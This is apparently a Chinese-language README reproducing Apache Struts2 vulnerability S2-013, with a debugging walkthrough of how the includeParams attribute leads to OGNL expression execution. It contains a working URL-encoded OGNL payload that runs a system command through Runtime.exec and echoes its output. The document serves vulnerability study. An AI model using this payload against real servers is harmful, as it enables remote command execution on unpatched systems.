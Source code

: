 # S2-013 Demo

## Summary

Impact of vulnerability: Remote command execution

Affected Software:  `Struts 2.0.0` - `Struts 2.3.14.1`

Problem: `Struts2` 标签中 ` <s:a> ` 和 ` <s:url> ` 都包含一个 `includeParams` 属性，其值可设置为 none，get 或 all，参考官方其对应意义如下：

1. none - 链接不包含请求的任意参数值（默认）
2. get - 链接只包含 GET 请求中的参数和其值
3. all - 链接包含 GET 和 POST 所有参数和其值

` <s:a> `用来显示一个超链接，当`includeParams=all`的时候，会将本次请求的GET和POST参数都放在URL的GET参数上。在放置参数的过程中会将参数进行`OGNL`渲染，造成任意命令执行漏洞。

## Environment

Struts2 Version: `Struts-2.2.3`

Server: `Tomcat 9.0.34

IDE: `idea 2020.1.1 ULTIMATE`

## POC

![image-20200720152355857](img/20200718101337.png)

## Payload

`HelloWorld.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%27calc%27).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println(%27dbapp%3D%27%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D`

## Debug

全局搜索`includeParams`关键字，发现有个`getIncludeParams`方法，先下个断点：

`s2-013/web/WEB-INF/lib/struts2-core-2.2.3.jar!/org/apache/struts2/components/ComponentUrlProvider.class:73`

![getIncludeParams](img/getIncludeParams.png)

然后进入到`beforeRenderUrl`函数中。可以看到这个函数将我们提交的恶意参数include进来：

![includeParams](img/includeParams.png)

接下来找哪里将表达式进行了解析。

继续跟进，进入`end`函数：

![end](img/end.png)

跟进`renderUrl` -> `determineActionURL` -> `buildURL` -> `buildParametersString` -> `translateAndEncode`:

![1595138319483](img/renderUrl.png)

![1595136376298](img/buildUrl.png)

![1595136451346](img/buildParametersString.png)

![1595136519253](img/translateAndEncode.png)

一直跟进translate函数，直到TextParseUtil类的translateVariables方法中，通过stack.findValue方法触发OGNL表达式执行。

`s2-013/web/WEB-INF/lib/xwork-core-2.2.3.jar!/com/opensymphony/xwork2/util/TextParseUtil.class:90`

![1595136693874](img/stackFindValue.png)



## Reference

- [S2-013](https://cwiki.apache.org/confluence/display/WW/S2-013)
- [S2-013/S2-014 远程代码执行漏洞]( https://github.com/vulhub/vulhub/blob/master/struts2/s2-013/README.zh-cn.md )

